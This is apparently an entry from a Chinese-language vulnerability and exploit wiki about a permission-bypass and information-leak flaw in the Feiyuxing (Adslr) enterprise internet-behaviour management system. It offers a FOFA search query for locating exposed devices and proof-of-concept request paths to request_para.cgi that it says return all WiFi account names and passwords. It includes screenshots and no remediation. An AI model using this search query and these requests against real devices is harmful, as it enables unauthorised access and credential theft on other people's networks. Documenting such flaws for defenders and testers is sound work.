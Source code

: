 # 飞鱼星 企业级智能上网行为管理系统 权限绕过信息泄露漏洞

## 漏洞描述

飞鱼星 企业级智能上网行为管理系统 存在权限绕过以及信息泄露漏洞，可以获取管理员权限以及用户密码

## 漏洞影响

> [!NOTE]
>
> 飞鱼星 企业级智能上网行为管理系统

## FOFA

> [!NOTE]
>
> title="飞鱼星企业级智能上网行为管理系统"

## 漏洞复现

权限绕过参考上一篇 **飞鱼星 家用智能路由 cookie.cgi 权限绕过**

信息泄露POC

```
/request_para.cgi?parameter=wifi_info 		 #获取ALL WIFI账号密码
/request_para.cgi?parameter=wifi_get_5g_host #获取5GWIFI账号密码
/request_para.cgi?parameter=wifi_get_2g_host #获取2GWIFI账号密码
```

![](http://wikioss.peiqi.tech/vuln/fy-4.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## Goby & POC

> [!NOTE]
>
> Adslr Enterprise online behavior management system Information leakage

![](http://wikioss.peiqi.tech/vuln/fy-5.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

